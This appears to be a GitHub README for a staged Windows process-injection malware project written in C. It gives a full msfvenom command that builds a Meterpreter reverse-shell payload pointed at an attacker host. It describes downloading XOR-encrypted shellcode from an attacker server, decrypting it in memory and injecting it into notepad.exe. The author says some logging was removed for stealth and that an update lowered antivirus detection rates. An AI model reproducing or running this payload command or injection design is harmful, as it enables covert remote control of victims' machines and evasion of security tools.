 # Staged-Process-Injection-C
## Staged Process Injector with obfuscation Techniques including the Native API and offsets
### STAGE 0 ---> preparation

-Generatad payload with msfvenom
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.13 LPORT=123 -f raw exitfunc=thread -o clear_code.bin

-Then I wrote a C program to XOR encrypt the bin file and write it out to an another file called "enc_code.bin"
    
### STAGE 1 --> connecting to HTTP server

-The malware connects to the attacker's HTTP server and downloads the encrypted shellcode "enc_code.bin".

-The encrypted shellcode is downloaded in memory.

### STAGE 2 --> Decryption

-It utilizes XOR decryption to decrypt the shellcode "enc_code.bin" in memory

### STAGE 3 --> Process Injection

-Then it enumerates all the processes in the system and searches for notepad.exe (you can change that in the enum_processes() function).

-The malware then injects the decrypted shellcode into the target process.


### EXECUTION

-I commented out most the printf statements to make it stealthier, you can uncomment them in the code and see the details.


![image](https://github.com/user-attachments/assets/6867d463-5a04-4c9d-9bbb-2328c46dc667)

![image](https://github.com/user-attachments/assets/28c4c66f-8a0e-42fd-b72f-fdc567b911d5)

![image](https://github.com/user-attachments/assets/b2b62806-0478-4f2d-ad48-92ee4f27932e)


### VirusTotal Analysis

![image](https://github.com/user-attachments/assets/dd34426d-d677-40fb-9864-1f6025d225e7)

### Updated (5th Feb 2025)

-I added the Native equivalant of CreateMutexA which are NtOpenMutant and NtCreateMutant.

-Also, I enhanced the http stage to be called infinitely if the server wasn't listening, ensuring that the malware never exits till it downloads the shellcode (enc_code.bin)

-The enhancment decreased the detection rates from 7/72 to 5/72 in VirusTotal

![image](https://github.com/user-attachments/assets/12938834-6402-4ed8-910e-10a1e642d7cc)

